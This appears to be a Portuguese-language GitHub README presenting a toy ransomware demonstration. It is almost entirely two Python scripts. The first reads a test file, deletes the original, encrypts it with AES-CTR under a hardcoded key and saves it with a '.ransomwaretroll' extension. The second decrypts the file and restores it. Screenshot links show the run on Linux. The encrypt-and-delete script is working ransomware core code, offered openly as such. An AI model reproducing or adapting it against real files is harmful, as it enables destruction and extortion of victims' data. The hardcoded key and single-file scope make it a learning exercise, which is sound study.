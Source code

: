 !primeiro eu criei o arquivo que iria criptografar

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

!depois eu criei o arquivo que iria ser descriptografado

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

!resultado final

##processo ultilizado no linux

![processo](https://github.com/user-attachments/assets/c4e95bf4-1977-4aa6-9bad-d54582df35cd)


![arquivo criptografado](https://github.com/user-attachments/assets/4b3371b4-e41b-4134-9b9c-28b56758b48e)


![arquivo descriptografado](https://github.com/user-attachments/assets/0153e069-b68f-45a6-b860-bb8c4244d612)
